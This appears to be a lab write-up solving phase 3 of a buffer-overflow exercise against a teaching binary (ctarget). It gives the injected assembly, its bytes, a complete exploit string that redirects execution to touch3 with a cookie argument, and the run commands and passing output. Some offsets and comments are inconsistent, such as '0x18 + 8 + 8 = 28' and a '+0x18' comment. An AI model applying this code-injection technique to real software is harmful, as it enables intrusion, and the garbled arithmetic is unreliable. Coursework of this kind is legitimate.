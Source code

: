 Phase 3 is kinda similar to phase to except that we are trying to call the function touch3 and have to pass our cookie to it as string

In the instruction it tells you that if you store the cookie in the buffer allocated for getbuf, the functions hexmatch and strncmp
may overwrite it as they will be pushing data on to the stack, so you have to be careful where you store it.

We will be storing the cookie after touch3.

So let's pass the address for the cookie to register $rdi

The total bytes before the cookie are buffer + 8 bytes for return address of rsp + 8 bytes for touch3 

`0x18 + 8 + 8 =  28` (40 Decimal)  

Grab the address for rsp from phase 2: `0x55620cd8`
Add 0x28
`0x55620cd8 + 0x28 = 0x55620D00`
Now you need this assembly code, same steps generating the byte representation

```
    movq $0x55620D00,%rdi /* %rsp + 0x18 */
    retq
```

The byte representation is as follows:
```
Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 00 0d 62 55 	mov    $0x55620d00,%rdi
   7:	c3                   	retq   
```

Now, grab the bytes from the above code and start constructing your exploit string. Create a new file named phase3.txt and here is what mine looks like:
```
48 c7 c7 00 0d 62 55 c3 /*rsp + 28 the address where the cookie is present*/
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 /*padding*/
d8 0c 62 55 00 00 00 00 /* return address *
7f 19 40 00 00 00 00 00 /* touch3 address -- get this from the rtarget dump file */
34 33 34 62 34 62 37 30 /* cookie string*/
```
If you look at the last row above, the cookie is in hex format, so you need to take your cookie and convert in to text format.
Go to http://www.unit-conversion.info/texttools/hexadecimal/ and put in your cookie without '0x' and it should give you the text format or you could look up ascii equivalent on your machine


Last step is to generate the raw eploit string using the hex2raw program.

`./hex2raw < phase3.txt > raw-phase3.txt`

Finally, you run the raw file

`./ctarget < raw-phase3.txt`

Response looks like below

```
Cookie: 0x434b4b70
Type string:Touch3!: You called touch3("434b4b70")
Valid solution for level 3 with target ctarget
PASS: Sent exploit string to server to be validated.
NICE JOB!
```
